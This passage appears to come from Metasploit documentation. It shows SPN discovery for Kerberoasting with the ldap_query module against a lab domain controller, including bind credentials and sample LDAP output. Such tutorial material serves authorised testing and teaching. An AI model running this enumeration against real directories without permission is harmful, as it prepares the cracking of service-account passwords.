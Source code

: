 ### SPN Discovery

First an SPN needs to be found. This can be done in a number of ways - including using metasploit's
very own `auxiliary/gather/ldap_query` module:

```
msf6 > use auxiliary/gather/ldap_query
msf6 auxiliary(gather/ldap_query) > set RHOSTS 172.16.199.235
RHOSTS => 172.16.199.235
msf6 auxiliary(gather/ldap_query) > set BIND_DN DARWIN_CLAY
BIND_DN => DARWIN_CLAY
msf6 auxiliary(gather/ldap_query) > set BIND_PW N0tpassword!
BIND_PW => N0tpassword!
msf6 auxiliary(gather/ldap_query) > set action ENUM_USER_SPNS_KERBEROAST
action => ENUM_USER_SPNS_KERBEROAST
msf6 auxiliary(gather/ldap_query) > run
[*] Running module against 172.16.199.235

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.16.199.235:389 Getting root DSE
dn:
namingcontexts: DC=example,DC=com
namingcontexts: CN=Configuration,DC=example,DC=com
namingcontexts: CN=Schema,CN=Configuration,DC=example,DC=com

...

======================================================================

 Name                  Attributes
 ----                  ----------
 cn                    BERYL_SAVAGE
 samaccountname        BERYL_SAVAGE
 serviceprincipalname  CIFS/OGCWLPT1000000

CN=CAITLIN_CAMPBELL OU=Devices OU=FIN OU=Tier 1 DC=example DC=com
=================================================================

 Name                  Attributes
 ----                  ----------
 cn                    CAITLIN_CAMPBELL
 samaccountname        CAITLIN_CAMPBELL
 serviceprincipalname  ftp/BDEWSECS1000000

CN=NETTIE_BURNS OU=ITS OU=Stage DC=example DC=com
=================================================

 Name                  Attributes
 ----                  ----------
 cn                    ALBERTO_OLSEN
 samaccountname        ALBERTO_OLSEN
 serviceprincipalname  https/TSTWWKS1000002

CN=LESSIE_PHILLIPS OU=Test OU=GOO OU=Stage DC=example DC=com
============================================================

```
